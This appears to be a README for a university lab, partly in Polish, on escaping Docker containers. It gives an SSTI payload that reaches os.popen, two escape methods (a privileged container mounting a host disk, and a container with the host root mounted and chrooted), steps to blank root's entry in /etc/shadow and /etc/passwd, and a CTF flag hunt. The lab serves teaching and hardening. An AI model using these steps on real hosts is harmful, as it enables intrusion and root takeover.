 
# Docker-Escape
This project shows vulnerability how to escape from Docker container in which web application is running. <br />

## About
This project was made for academic purposes during one of our courses at the AGH University of Krakow. <br />
We present security issues in Docker. We show vulnerabilities of this software and best practices related to them. Below we also include case-studies showing how to get into the server from the user level of a web application, how to escape from this container and the possibilities that open up to us after such an escape.<br />

  
## Authors:
[Huber Mąka](https://github.com/norka02) <br />
[Karol Makara](https://github.com/KarolMakara) <br />
[Jakub Kowal](https://github.com/jd-kowal) <br />

*** 

# Tasks


## Task 0 - Przygotowanie środowiska
Aby rozpocząć wykonywanie zadań sklonujcie repozytorium. <br />
Będziemy używać Dockera (kontener w kontenerze). Całość jest przygotowana w docker.file. <br />
Następnie wykonaj poniższe komendy. <br />

Build:
```bash: 
docker build -t ubuntu-dind .
```

Run:
```bash: 
docker run -d -p 5000:5000 --privileged --hostname ubuntu-dind --name ubuntu-dind ubuntu-dind
```

Enter:<br />
```bash: 
docker exec -itu adam ubuntu-dind bash
```

**TIP** - w przypadku problemów -> zrestartuj kontener 

## Task 1 - Dostęp do serwera z perspektywy użytkownika aplikacji webowej
Na kontenerze jest uruchomiona aplikacja webowa. Znając jej podatność omówioną podczas prezentacji spróbuj za pomocą preparacji url-a wykonać podstawowy pentesting (np. podawany podczas prezentacji przykład wyrażenia 7*7). <br />
Następnie jeżeli w wyniku wcześniejszego przykładu otrzymasz wynik 49 to możemy przejść dalej. <br />
Do następnej czynności będziemy potrzebowali poniższej komendy. <br />

```
"baiim".__class__.__base__.__subclasses__()[<Liczba_Którą_Znalazłeś>].__init__.__globals__['sys'].modules['os'].popen(<Twoja_Komenda>).read()
```

Najpierw jednak musimy znaleźć **LICZBĘ**. Aby ją odszukać użyj programu ``hack.py`` w konsoli.

**Odpowiedź** - wyślij ss, który wylistuje wszystkie pliki i katalogi z aktualnego katalogu (wpisz tą komendę w popen()) 

## Task 2 - Docker Escape & Privilege Escalation
**TIP** - proponujemy przejście z wykonywaniem zadań do terminala. Otwórz go w katalogu projektu.<br />
Ucieczkę z kontenera umożliwia nam złe skonfigurowanie kontenera. <br />

Spróbuj zmienić użytkownika na root-a (nie powinieneś mieć takiej możliwości - powinieneś być na adamie) {**PE**}: 
```
su root
```
Sprawdź listę dostępnych obrazów:
```
docker images
```
Pobierz obraz dockera z repozytorium:
```
docker pull ubuntu:18.04
```
![image](https://github.com/norka02/Docker-Escape/assets/121463460/e5f1fbfc-c4f9-4543-a6b0-f802d55b7039) <br />
Po pobraniu sprawdź czy obraz pobrał się poprawnie za pomocą:
```
docker images
```
Poniżej zostały przedstawione dwie przykładowe możliwości stworzenia kontenera z podatnością:
1. ```
docker run --rm -it --name kontener-adama --hostname ubuntu-by-adam --privileged ubuntu:18.04 bash
```
2. ```
docker run -it -v /:/host/ ubuntu:18.04 chroot /host/ bash
```

Pierwsza opcja pozwoli nam stworzyć kontener z flagą ``--priviliged``, dzięki której będzie możliwe poprzez zmontowanie partycji wyjście do systemu hosta. <br />
W zależności od solidności zabezpieczeń serwera będzie można edytować pliki na maszynie hosta lub tylko je czytać. <br />
Druga opcja daje nam z regły dużo większe możliwości jako osobie która uruchamia kontener, ale także dużo większe możliwości dla potencjalnego atakującego. <br />
W skrócie montuje ona volumen z katalogu root hosta do katalogu /host w kontenerze dzięki czemu możemy przykładowo przesyłać pliki między hostem a kontenerem. <br />

Zacznijmy od scenariusza pierwszego. <br />
Będąc na użytkowniku **adam** uruchom kontener {**DE**}:

Teraz jesteś wewnątrz swojego kontenera, którego przed chwilą stworzyłeś. Możesz to sprawdzić za pomocą komend ``whoami`` oraz ``hostname``. <br />
Przykładowy ScreenShot znajduje się poniżej.
![image2](https://github.com/norka02/Docker-Escape/assets/94318576/7a2266e8-ce4f-44dd-9a3d-e93341a36755) <br />
Jak możesz zauważyć tworząc własny kontener masz w nim uprawnienia root-a. <br />
Następnie stwórz w swoim kontenerze z obrazem ubuntu katalog: <br />
```bash
mkdir -p /mnt/share
```
Oraz podmontuj odpowiednią partycję dysku do tego katalogu np. /dev/sdc: <br />
```bash
mount /dev/sdc /mnt/share
```
Domyślnie polecenie mount nadaje ci prawa do zapisu i odczytu, ale jeśli wystąpiłby przykładowo taki komunikat: <br />
![image3](https://github.com/norka02/Docker-Escape/assets/94318576/d1cd3e07-3672-4086-bb40-2b86b14bceb5) <br />
Zmień partycję dysku. Listę partycji możesz uzyskać za pomocą polecenia: <br />
```bash
lsblk
```
Dzięki podmontowaniu partycji jesteśmy w stanie uzyskać dostep do struktury katalogów hosta. 

Sprawdź czy masz dostęp do struktury katalogów hosta:
```bash
 ls -l /mnt/share 
```
Poszperaj trochę po systemie. Może znajdziesz coś ciekawego ;). <br />
PS: Zobacz jak niewiele trzeba do wycieku danych. <br />

Wyjdź z kontenera za pomocą ``exit``. <br />


Teraz przejdźmy do scenariusza drugiego. Uruchom kontener za pomocą wcześniej podanej komendy. Następnie wylistuj strukturę katalogów w której obecnie się znajdujesz. <br />
Spróbuj przedostać się do zewnętrznego systemu plików, odnajdź pliki ``/etc/shadow`` oraz ``/etc/passwd`` i usuń w nich elementy odpowiadające za uwierzytelnienie użytkownika root. <br />

  *Jeżeli nie masz zainstalowengo żadnego edytora tekstowego wykonaj poniższe komendy:*
  ```bash
  apt update
  ```
  
  *Instalacja w kontenerze wybranego przez siebie edytora tekstowego (np. vim, nano).* 
  ```bash
  apt install vim
  ```

Za pomocą edytora tekstowego otwórz plik ``/etc/shadow`` oraz ``/etc/passwd``.  <br />


Trzeba usunąć część wskazującą na obecność hasła root-a w pliku shadow {**PE**}. Zrób tak samo z plikiem passwd. <br />

![image5](https://github.com/norka02/Docker-Escape/assets/94318576/8bf49b45-925b-4c12-b7a5-9a6a5cbf5b4b)
![image4](https://github.com/norka02/Docker-Escape/assets/94318576/f38a79ad-7e7a-4e0b-a404-cfce4b5aaea8)
<br />

Wyjdź z kontenera za pomocą ``exit``. <br />

Zmień użytkownika na root-a {**PE**}:
```
su root
```
Brawo właśnie przejąłeś konto roota! <br />

**Odpowiedź** - wyślij ss potwierdzającego twoje uprawnienia root-a. 

## Task 3 - Mini-CTF
Mając uprawnienia root-a możesz poruszać się bezproblemowo po systemie. Znajdź katalog, który nie powinien znajdować się w systemie/wyróżnia się spośród pozostałych. W nim znajduje się plik z flagą. Zmodyfikuj znaleziony plik dodając swoje imię i nazwisko. <br />
Flaga znajduje się w pliku tekstowym i jest oznaczona w następujący sposób:
```
CTF{<flaga>}
```

**Odpowiedź** - wyślij widoczną zmodyfikowaną flagę wraz z dopisanym unikalnym tekstem wymienionym wyżej oraz ścieżkę do katalogu, w którym znajduje się znaleziona flaga. 

## Task 4 - Tworzenie Bezpiecznego Kontenera
Posiadając całą wiedzę zdobytą podczas prezentacji oraz poprzednich tasków zastanów się w jaki sposób możesz zabezpieczyć kontener przed różnymi wektorami ataków. <br />
Stwórz kontener, który spełnia wszystkie best-practice dot. bezpiecznego tworzenia kontenera Dockera. <br />
<br />
**Odpowiedź** - wyślij widoczną komendę, która tworzy **Bezpieczny Kontener**. <br />
